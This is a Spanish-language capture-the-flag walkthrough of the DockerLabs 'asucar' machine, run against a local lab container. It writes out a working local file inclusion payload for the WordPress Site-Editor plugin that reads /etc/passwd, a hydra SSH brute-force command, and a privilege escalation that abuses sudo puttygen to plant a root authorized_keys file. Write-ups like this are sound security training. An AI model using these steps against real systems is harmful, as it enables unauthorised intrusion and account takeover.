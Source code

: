 nmap: 22,80

![image](https://github.com/user-attachments/assets/8504499b-9655-431e-a40f-ea0959b954cf)


---
en la pagina principal podemos ver que es de wordpress:

![image](https://github.com/user-attachments/assets/f9cd8200-a10f-4ea9-97fa-bde2654899cb)

como sabemos que es un wordpress podemos utilizar sus herramientas. hacemos un "wpscan":

    -  wpscan --url http://asucar.dl/ 

nos da una version de "site-editor 1.1"

![image](https://github.com/user-attachments/assets/7e5f859f-eea9-4ac8-9341-3c89158bd8e5)


hacemos un searchsploit site-editor plugin, buscamos con:

      - searchsploit -x php/webapps/44340.txt  
      
nos da:
> site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php

buscamos sobre el exploit: https://www.exploit-db.com/exploits/44340

![image](https://github.com/user-attachments/assets/1fc5f8f5-8ed3-48dc-b28e-762f86653953)


y encontré que si en la barra de búsqueda colocamos: http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd

![image](https://github.com/user-attachments/assets/d02df419-b597-4b29-8f0d-a1403bd40c07)


y nos dio el contenido de "/etc/passwd" 

vemos que tenemos el usuario "*curiosito*"

hacemos un ataque de fuerza bruta:

         -hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

y nos dio: password1

![image](https://github.com/user-attachments/assets/fb17e9e4-9822-4484-b6e2-52ffe7101fc1)

entramos por el ssh

al hacer "sudo -l" nos aparece "puttygen" que es un comando para generar claves privadas como publicas.

![image](https://github.com/user-attachments/assets/d7798445-a0ae-43dc-ad7c-4c3895b06260)


y encontré que tenemos permisos root generamos una clave primero:

      -  puttygen -t rsa -b 2048 -o rootAccess.ppk

![image](https://github.com/user-attachments/assets/8d29600c-e370-4b56-bef7-bd2708d06e7e)

se puede dejar sin contraseña o con contraseña
lo pasamos una clave publica:
    
      - sudo puttygen rootAccess.ppk -O public-openssh -o /root/.ssh/authorized_keys
    
 ahora una privada:
   
    - puttygen rootAccess.ppk -O private-openssh -o privateRootAccess.ppk

en nuestra terminal colocamos:

      - scp curiosito@172.17.0.2:/home/curiosito/privateRootAccess.ppk . 

para pasarnos la clave privada.

![image](https://github.com/user-attachments/assets/1755bf41-4b22-408b-b166-352148d9c0a2)


 ya pasado hacemos un:
        
    - ssh root@172.17.0.2 -i privateRootAccess.ppk 

![[dockerlabs/medio/asucar/root.png]]

colocamos la contraseña que colocamos y somos root! 
